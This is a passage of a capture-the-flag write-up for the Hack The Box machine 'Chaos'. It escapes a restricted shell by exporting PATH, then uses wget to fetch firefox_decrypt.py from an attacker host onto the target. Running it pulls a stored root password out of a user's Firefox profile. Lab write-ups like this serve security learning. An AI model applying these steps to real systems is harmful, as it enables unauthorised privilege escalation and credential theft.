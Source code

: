 ```
ayush@chaos:/home$ dir -la '/home/ayush/.app'
total 8
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .
drwx------ 6 ayush ayush 4096 Jul 30 19:07 ..
lrwxrwxrwx 1 root  root     8 Oct 28  2018 dir -> /bin/dir
lrwxrwxrwx 1 root  root     9 Oct 28  2018 ping -> /bin/ping
lrwxrwxrwx 1 root  root     8 Oct 28  2018 tar -> /bin/tar
```

Luckily for us we can still use the `export` command and simply run:

```
export SHELL=/bin/bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

Which gives us a normal shell.

From here we can (finally) grab the user.txt flag:

![htb_chaos_user.png](../assets/chaos_assets/htb_chaos_user.png)

### Privilege Escalation

Browsing around we see a `/.mozilla` directory in ayush's home folder.

Let's use firefox_decrypt.py to try extracting any stored credentials. For this I had to use the python2 version: https://github.com/unode/firefox_decrypt/releases/tag/0.7.0

```
ayush@chaos:~$ wget 10.10.14.234/firefox_decrypt.py
--2025-07-30 19:54:54--  http://10.10.14.234/firefox_decrypt.py
Connecting to 10.10.14.234:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 28155 (27K) [text/x-python]
Saving to: ‘firefox_decrypt.py’

firefox_decrypt.py  100%[===================>]  27.50K  --.-KB/s    in 0.08s   

2025-07-30 19:54:54 (359 KB/s) - ‘firefox_decrypt.py’ saved [28155/28155]

ayush@chaos:~$ python firefox_decrypt.py 

Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
